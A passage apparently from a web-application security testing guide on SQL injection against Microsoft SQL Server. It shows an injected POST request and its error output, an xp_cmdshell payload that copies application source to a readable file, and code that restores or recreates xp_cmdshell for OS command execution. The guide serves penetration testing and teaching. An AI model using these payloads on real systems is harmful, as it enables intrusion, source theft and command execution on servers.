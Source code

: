 ### Example 3: Testing in a POST Request

SQL Injection, HTTP POST Content: `email=%27&whichSubmit=submit&submit.x=0&submit.y=0`

A complete post example (`https://vulnerable.web.app/forgotpass.asp`):

```txt
POST /forgotpass.asp HTTP/1.1
Host: vulnerable.web.app
[...]
Referer: http://vulnerable.web.app/forgotpass.asp
Content-Type: application/x-www-form-urlencoded
Content-Length: 50

email=%27&whichSubmit=submit&submit.x=0&submit.y=0
```

The error message obtained when a `'` (single quote) character is entered at the email field is:

```txt
Microsoft OLE DB Provider for SQL Server error '80040e14'
Unclosed quotation mark before the character string '' '.
/forgotpass.asp, line 15
```

### Example 4: Yet Another (Useful) GET Example

Obtaining the application’s source code

`a' ; master.dbo.xp_cmdshell ' copy c:\inetpub\wwwroot\login.aspx c:\inetpub\wwwroot\login.txt';--`

### Example 5: Custom `xp_cmdshell`

All books and papers describing the security best practices for SQL Server recommend disabling `xp_cmdshell` in SQL Server 2000 (in SQL Server 2005 it is disabled by default). However, if we have sysadmin rights (natively or by bruteforcing the sysadmin password, see below), we can often bypass this limitation.

On SQL Server 2000:

-   If `xp_cmdshell` has been disabled with `sp_dropextendedproc`, we can simply inject the following code:

`sp_addextendedproc 'xp_cmdshell','xp_log70.dll'`

-   If the previous code does not work, it means that the `xp_log70.dll` has been moved or deleted. In this case we need to inject the following code:

```
CREATE PROCEDURE xp_cmdshell(@cmd varchar(255), @Wait int = 0) AS
    DECLARE @result int, @OLEResult int, @RunResult int
    DECLARE @ShellID int
    EXECUTE @OLEResult = sp_OACreate 'WScript.Shell', @ShellID OUT
    IF @OLEResult <> 0 SELECT @result = @OLEResult
    IF @OLEResult <> 0 RAISERROR ('CreateObject %0X', 14, 1, @OLEResult)
    EXECUTE @OLEResult = sp_OAMethod @ShellID, 'Run', Null, @cmd, 0, @Wait
    IF @OLEResult <> 0 SELECT @result = @OLEResult
    IF @OLEResult <> 0 RAISERROR ('Run %0X', 14, 1, @OLEResult)
    EXECUTE @OLEResult = sp_OADestroy @ShellID
    return @result
```

